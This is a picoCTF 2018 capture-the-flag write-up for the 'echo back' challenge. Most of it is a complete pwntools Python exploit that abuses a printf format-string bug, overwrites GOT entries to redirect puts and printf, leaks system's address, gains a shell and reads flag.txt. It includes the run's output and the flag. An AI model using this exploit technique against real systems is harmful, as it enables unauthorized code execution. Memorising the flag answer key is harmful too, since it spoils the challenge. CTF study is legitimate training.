


# Problem
This [program](https://2018shell1.picoctf.com/static/31a735bf5c057adfacac1cb8920afaee/echoback) we found seems to have a vulnerability. Can you get a shell and retreive the flag? Connect to it with ```nc 2018shell1.picoctf.com 37857```.

## Hints:
hmm, printf seems to be dangerous...

You may need to modify more than one address at once.

Ever heard of the Global Offset Table?

## Solution:

Lets download the files:
```bash
wget https://2018shell1.picoctf.com/static/31a735bf5c057adfacac1cb8920afaee/echoback
chmod +x ./echoback
```

Lets take a look with IDA:




Strategy:
* Redirect ```puts()``` back to ```vuln()```.
* Leak the address of ```system()```.
* Redirect ```printf()``` to ```system()```.
* Enjoy the shell


Code:
```python
#!/usr/bin/env python

from pwn import *


debug = 0


def write_memory(address, value):
  v1 = (value & 0x0000FFFF) - 8
  v2 = (value >> 16) - (value & 0x0000FFFF)

  if v2 < 0:
    v2 += 0x00010000

  ret = p32(address) + p32(address + 2) + '%{}x'.format(v1) + '%7$hn'

  if v2 != 0:
    ret += '%{}x'.format(v2)

  ret += '%8$hn'

  return ret

if debug:
  p = process('./echoback')
else:
  p = remote('2018shell1.picoctf.com', 37857)

binary = ELF('./echoback')

p.recvuntil('input your message:')

# Override puts@got with vuln
log.info('Overriding puts@got with vuln')
payload = write_memory(binary.symbols['got.puts'], binary.symbols['vuln'])
p.sendline(payload)

p.recvuntil('input your message:')

log.info('Leaking address of system')
p.sendline(p32(binary.symbols['got.system']) + "." + "%7$s" + ".")
leaked_system = p.recvuntil('input your message:')
leaked_system = unpack(leaked_system.split('.')[1][:4], 32, endian='little')
log.info('Leaked system address: {}'.format(hex(leaked_system)))

# Override printf@got with system@got
log.info('Overriding printf@got with system@got')
payload = write_memory(binary.symbols['got.printf'], leaked_system)
p.sendline(payload)

p.recvuntil('input your message:')

p.sendline('cat flag.txt')
print p.recvuntil('}')
p.close()
```

The output:
```bash
[+] Opening connection to 2018shell1.picoctf.com on port 37857: Done
[*] '/home/roee/Dropbox/Hacking/CTF/picoCTF-2018/Binary/12-echo_back-500/echoback'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Overriding puts@got with vuln
[*] Leaking address of system
[*] Leaked system address: 0xf759d940
[*] Overriding printf@got with system@got

picoCTF{foRm4t_stRinGs_aRe_3xtra_DanGer0us_73881db0}
[*] Closed connection to 2018shell1.picoctf.com port 37857
```

Flag: picoCTF{foRm4t_stRinGs_aRe_3xtra_DanGer0us_73881db0}
